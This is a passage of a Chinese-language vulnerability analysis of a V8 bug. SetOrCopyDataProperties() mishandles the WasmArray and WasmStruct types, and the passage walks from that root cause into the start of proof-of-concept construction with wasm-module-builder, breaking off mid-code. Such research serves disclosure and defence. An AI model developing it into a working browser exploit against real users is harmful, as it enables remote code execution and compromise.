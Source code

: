 JSReceiver与  
JSObject的区别如下,   
JSReceiver比  
JSObject少了一个  
elements字段  
```
extern class JSReceiver extends HeapObject {
  properties_or_hash: SwissNameDictionary|FixedArrayBase|PropertyArray|Smi;
}

extern class JSObject extends JSReceiver {
  elements: FixedArrayBase;
```  
  
因此: **当target是JSReceive的子类型, 但又不是JSObject类型时, 就会触发漏洞**  
  
根据  
gen/torque-generated/instance-types.h中的类继承关系, 满足条件的只有  
JS_PROXY_TYPE, WASM_ARRAY_TYPE, WASM_STRUCT_TYPE三种类型。  
```
    V(FIRST_JS_RECEIVER_TYPE, 290) \
      V(FIRST_WASM_OBJECT_TYPE, 290) \
        V(WASM_ARRAY_TYPE, 290) /* https://source.chromium.org/chromium/chromium/src/+/main:v8/src/wasm/wasm-objects.tq?l=252&c=1 */\
        V(WASM_STRUCT_TYPE, 291) /* https://source.chromium.org/chromium/chromium/src/+/main:v8/src/wasm/wasm-objects.tq?l=249&c=1 */\
      V(LAST_WASM_OBJECT_TYPE, 291) \
      V(JS_PROXY_TYPE, 292) /* https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/js-proxy.tq?l=5&c=1 */\
      V(FIRST_JS_OBJECT_TYPE, 293) \
        ... // JSObject的子类
      V(LAST_JS_OBJECT_TYPE, 2165) \
    V(LAST_JS_RECEIVER_TYPE, 2165) \
  V(LAST_HEAP_OBJECT_TYPE, 2165) \
```  
  
因此: **之前在编写SetOrCopyDataProperties()的代码时只考虑到了JS_PROXY_TYPE的情况, 所以进行了过滤, 但是后面添加WASM_ARRAY_TYPE, WASM_STRUCT_TYPE时没有考虑到SetOrCopyDataProperties(), 由此导致了漏洞。**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z9MuUwaeeGIrsLSLibO82G4fHFFtiaSlNzK77Kb9QibMkdfa2vqX48jqCmsbFjLlv4Tw4tHgZN3YQZAOfhklGEuEA/640?wx_fmt=png&from=appmsg "")  
  
**04**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Z9MuUwaeeGIrsLSLibO82G4fHFFtiaSlNzcNMyDXxibpP7tDgwy0RyU1vu4kUxs6eJuxf7BvwD7URPCXsjxgGWsjA/640?wx_fmt=png&from=appmsg "")  
  
**构造POC**  
  
**4.1**  
  
**创建**  
WasmArray  
**对象**  
  
那么如何构造出一个  
WasmArray对象? 研究发现v8发现没有直接提供JS API来创建这个对象, 而且由于WASM GC是一个比较新的提案, 因此wat2wasm这个工具目前也不支持  
array.new这种语法, 因此只能通过  
wasm-module-builder构造:  
```
const prefix = "../../";

d8.file.execute(`${prefix}/test/mjsunit/wasm/wasm-module-builder.js`);

let builder = new WasmModuleBuilder();

// 添加一个WasmArray类型, 元素类型为I32, 可变
let array = builder.addArray(kWasmI32, true);

builder.addFunction(    // 添加名字为createArray的wasm函数
```
